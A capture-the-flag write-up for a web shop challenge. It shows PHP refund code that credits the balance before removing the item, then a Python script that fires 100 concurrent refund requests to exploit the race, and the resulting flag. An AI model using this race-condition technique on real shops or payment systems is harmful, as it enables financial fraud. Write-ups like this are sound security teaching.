



## Shop 4 Writeup
###### Author/solved by: Tinius
###### Team: Datasnok

## Challenge description
```text
by null

We always aim to make things bigger and better! Our shop now boasts more items than ever before and has scaled up to support way more users than previous years with a blazingly fast frontend!

If you should manage, somehow to buy the new exclusive EPT fan merchandise, you can claim 5 physical instances at the admin booth after you have bought the fan in the shop and submitted the flag on the platform!
```


## Initial thoughts
Firstly I thought that the application was acceptable to sql injections, but realised quickly that that was not the case.
Then looking at the docker-compose.yaml
```yaml
version: '3'

services:
  # Our blazingly fast frontend!
  apache:
    build: .
    ports:
      - "8000:80"
    environment:
      - DB_URL=mysql://shop:shop@db/shop

  # TODO: Upgrade database in production to be as fast as our frontend.
  db:
    build: ./db
    ports:
      - "3306:3306"
    environment:
      - MYSQL_ROOT_PASSWORD=root
      - MYSQL_DATABASE=shop
      - MYSQL_USER=shop
      - MYSQL_PASSWORD=shop
```
Here we are hinted with
```text
  # Our blazingly fast frontend!
  and
  # TODO: Upgrade database in production to be as fast as our frontend.
```
Then I thought of the possibility of a race condition.

## How the app works

We only have 100$ and we need 2,499\$ to buy the flag/fan.
We can buy the Race Car for 99,99\$ and refund it for 99,99\$.



Other than that there is noting special here.

## The code
How balance is updated:
```php
function updateUserbalance($userId, $balance) {
    $db = getDBConnection();
    $stmt = $db->prepare('UPDATE users SET balance = balance + ? WHERE id = ?');
    $stmt->bind_param('di', $balance, $userId);
    return $stmt->execute();
}
```
Where money is increased:
```php
elseif ($action === 'refund') {
  if (isset($user_items[$item_id]) && $user_items[$item_id] > 0) {
      if (updateUserbalance($user['id'], $item['price'])) {
          if (removeUserItem($user['id'], $item_id)) {
              $messages[] = [
                  "category" => "success",
                  "message" => "Item refunded successfully!"
              ];
              $user = getCurrentUser();
              $user_items = getItemsByUserId($user['id']);
          } else {
              $messages[] = [
                  "category" => "danger",
                  "message" => "Error removing item from user inventory."
              ];
              updateUserbalance($user['id'], -$item['price']);
          }
```
We can see that the balance is updated before the item is removed from the user. Without any other checks we can just refund the same item multiple times at the same time.

Request payload for refund:
```text
item_id=1&action=refund
```

## Trying to exploit
We can try to sell as many items as possible at the same time.

```python
import requests
import threading


url = "https://datasnok-af90-shop-4.ept.gg/"
headers = {
    "Cookie": "session_token=53bc705d6c6bea7d5a68424992142eb776635b5707eef70e563e1f18f8504cd5",
    "Content-Type": "application/x-www-form-urlencoded",
}

data = {
    "item_id": "1",
    "action": "refund"
}


def order():
    requests.post(url, headers=headers, data=data)


t = [threading.Thread(target=order, args=[]) for _ in range(100)]
for a in t:
    a.start()

```


Now we just need to run it one more time and hopefully we have enough money to buy the flag.



```text
EPT{th0s3_f4ns_g0_brrrr}
```